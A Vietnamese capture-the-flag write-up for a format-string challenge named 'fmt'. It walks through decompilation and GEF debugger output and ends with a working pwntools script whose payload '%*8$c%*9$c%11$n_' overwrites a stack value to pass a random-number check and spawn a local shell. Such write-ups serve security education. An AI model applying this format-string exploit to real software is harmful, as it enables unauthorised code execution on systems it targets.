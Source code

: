 Ta được cung cấp 1 file binary với tên bài fmt xmaster thì với hint là :

```
Use * to have a variable field width, equals to an signed integer on the stack, can combine with positional argument. Eg. %*10$c: print a number of characters equals to the 10th argument.
```

Giờ ta sẽ nhìn sơ qua file binary được cung cấp và các chế độ bảo vệ


![image](https://user-images.githubusercontent.com/114044703/213352879-e9926848-6445-4a04-9af9-ce90505da6a8.png)

![image](https://user-images.githubusercontent.com/114044703/213352929-16afa3f6-655c-4344-a371-107803f3e389.png)

Vậy chúng ta sẽ làm việc với file binary 64 bit. Khi chạy thì chương trình sẽ yêu cầu ta nhập tên và con số may mắn. Nếu sai sẽ dừng chương trình.

![image](https://user-images.githubusercontent.com/114044703/213353820-28782d93-403b-41c6-aa46-94f2da3a3cfc.png)

Sau khi dịch chương trình bằng ghidra thì ta thấy chương trình sẽ lấy ran1 và ran2 từ "dev/urandom" sau đó nếu input = ran1 + ran2 thì sẽ thực thi system("/bin/sh").

#BUG: Ngay tại hàm in ra name không chứa format strings nên ta có thể nghĩ ra 2 cách khai thác chương trình:

Cách 1: Đè lên tổng ran1 và ran2 sao cho bằng với input ta ghi vào bằng cách sử dụng %n

Cách 2: Thay đổi input bằng với lại ran1+ran2 bằng cách sử dụng %n

Giờ ta sẽ debug chương trình và đặt break point ngay tại printf bị lỗi fmt và trước khi cộng 2 biến ran1 và ran2 để xác định vị trí của ran1 và ran2:

```
gef➤  r
Starting program: /home/kali/Downloads/kcsc/fmt/chall 
[*] Failed to find objfile or not a valid file format: [Errno 2] No such file or directory: 'system-supplied DSO at 0x7ffff7fc1000'
warning: Expected absolute pathname for libpthread in the inferior, but got ./libc.so.6.
warning: Unable to find libthread_db matching inferior's thread library, thread debugging will not be available.
your name:
%7$p
you can guess a number,if you are lucky I will give you a gift:
123123

Breakpoint 1, 0x0000000000401345 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x0               
$rbx   : 0x0               
$rcx   : 0x206f6c6c        
$rdx   : 0x0               
$rsp   : 0x007fffffffdd80  →  0x0000000000000000
$rbp   : 0x007fffffffde20  →  0x0000000000000001
$rsi   : 0x6c6c6568        
$rdi   : 0x007fffffffddb0  →  0x000000000a7025 ("%p\n"?)
$rip   : 0x00000000401345  →  <main+271> call 0x4010f0 <printf@plt>
$r8    : 0x1999999999999999
$r9    : 0x0               
$r10   : 0x00000000402065  →  0x6c00206f6c6c6568 ("hello "?)
$r11   : 0x007ffff7c60770  →  <printf+0> endbr64 
$r12   : 0x007fffffffdf38  →  0x007fffffffe283  →  "/home/kali/Downloads/kcsc/fmt/chall"
$r13   : 0x00000000401236  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401200  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)     ← $rdi
0x007fffffffddb8│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401339 <main+259>       lea    rax, [rbp-0x70]
     0x40133d <main+263>       mov    rdi, rax
     0x401340 <main+266>       mov    eax, 0x0
 →   0x401345 <main+271>       call   0x4010f0 <printf@plt>
   ↳    0x4010f0 <printf@plt+0>   endbr64 
        0x4010f4 <printf@plt+4>   bnd    jmp QWORD PTR [rip+0x2f35]        # 0x404030 <printf@got.plt>
        0x4010fb <printf@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
        0x401100 <close@plt+0>    endbr64 
        0x401104 <close@plt+4>    bnd    jmp QWORD PTR [rip+0x2f2d]        # 0x404038 <close@got.plt>
        0x40110b <close@plt+11>   nop    DWORD PTR [rax+rax*1+0x0]
────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x007fffffffddb0 → 0x000000000a7025 ("%p\n"?),
   $rsi = 0x0000006c6c6568,
   $rdx = 0x00000000000000
)
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x401345 in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x401345 → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  tele
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)     ← $rdi
0x007fffffffddb8│+0x0038: 0x0000000000000000
0x007fffffffddc0│+0x0040: 0x0000000000000000
0x007fffffffddc8│+0x0048: 0x0000000000000000
gef➤  ni
hello 0x300000000
```

Vậy ```0x007fffffffdd88│+0x0008: 0x000000030000000``` là stack tại vị trí thứ 7.

```
$rax   : 0x5d99            
$rbx   : 0x0               
$rcx   : 0x2e2e2e2065657320 (" see ..."?)
$rdx   : 0xbd67            
$rsp   : 0x007fffffffdd80  →  0x0000000000000000
$rbp   : 0x007fffffffde20  →  0x0000000000000001
$rsi   : 0x7320656d2074656c ("let me s"?)
$rdi   : 0x007fffffffd820  →  0x007ffff7c620d0  →  <funlockfile+0> endbr64 
$rip   : 0x0000000040136c  →  <main+310> add rdx, rax
$r8    : 0x0               
$r9    : 0x007fffffffdc50  →  "6c6c6568"
$r10   : 0x0000000040206c  →  "let me see ..."
$r11   : 0x246             
$r12   : 0x007fffffffdf38  →  0x007fffffffe283  →  "/home/kali/Downloads/kcsc/fmt/chall"
$r13   : 0x00000000401236  →  <main+0> endbr64 
$r14   : 0x00000000403e18  →  0x00000000401200  →  <__do_global_dtors_aux+0> endbr64 
$r15   : 0x007ffff7ffd040  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
──────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x007fffffffdd80│+0x0000: 0x0000000000000000     ← $rsp
0x007fffffffdd88│+0x0008: 0x0000000300000000
0x007fffffffdd90│+0x0010: 0x000000000000bd67
0x007fffffffdd98│+0x0018: 0x0000000000005d99
0x007fffffffdda0│+0x0020: 0x000000000001e0f3
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
0x007fffffffddb0│+0x0030: 0x000000000a7025 ("%p\n"?)
0x007fffffffddb8│+0x0038: 0x0000000000000000
────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x401359 <main+291>       call   0x4010f0 <printf@plt>
     0x40135e <main+296>       mov    rdx, QWORD PTR [rbp-0x90]
     0x401365 <main+303>       mov    rax, QWORD PTR [rbp-0x88]
●→   0x40136c <main+310>       add    rdx, rax
     0x40136f <main+313>       mov    rax, QWORD PTR [rbp-0x80]
     0x401373 <main+317>       cmp    rdx, rax
     0x401376 <main+320>       jne    0x4013b1 <main+379>
     0x401378 <main+322>       lea    rax, [rip+0xd01]        # 0x402080
     0x40137f <main+329>       mov    rdi, rax
────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "chall", stopped 0x40136c in main (), reason: BREAKPOINT
──────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x40136c → main()
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤ 
```
-> ran1 nằm ở vị trí thứ 8 trên stack, ran2 nằm ở vị trí thứ 9
Vậy cách 1 không thể thực hiện được vì tổng 2 ran k được lưu vào stack

Cách 2: ta thấy 
hex(123123)=0x000000000001e0f3 vậy input là ngay tại 

```
0x007fffffffdda0│+0x0020: 0x000000000001e0f3                    
0x007fffffffdda8│+0x0028: 0x007fffffffdda0  →  0x000000000001e0f3
```
Vậy ta có thể dùng địa chi thứ 2 là 0x007fffffffdda8 để ghi đè vì ta không cần cung cấp thêm địa chỉ cho %n nữa

Ý Tưởng khai thác: sử dụng %*$c mà đề đã gợi ý tại vị trí stack thứ 8 và thứ 9 để in ra số ký tự bằng với giá trị ran1+ran2 vào vị trí thứ 11 trên stack đồng thời là input

Ta sẽ khai thác với những dữ kiện trên :

```
from pwn import *
t=process('./chall')
#gdb.attach(t,api=True)
payload=b"%*8$c%*9$c%11$n_"
t.sendlineafter(b"your name:",payload)
t.sendlineafter(b"give you a gift",b"123123")
t.interactive()
```

Và sau khi chạy:

![image](https://user-images.githubusercontent.com/114044703/213358395-d02c085d-64fc-4fb1-9cd1-1687ee2b8b62.png)



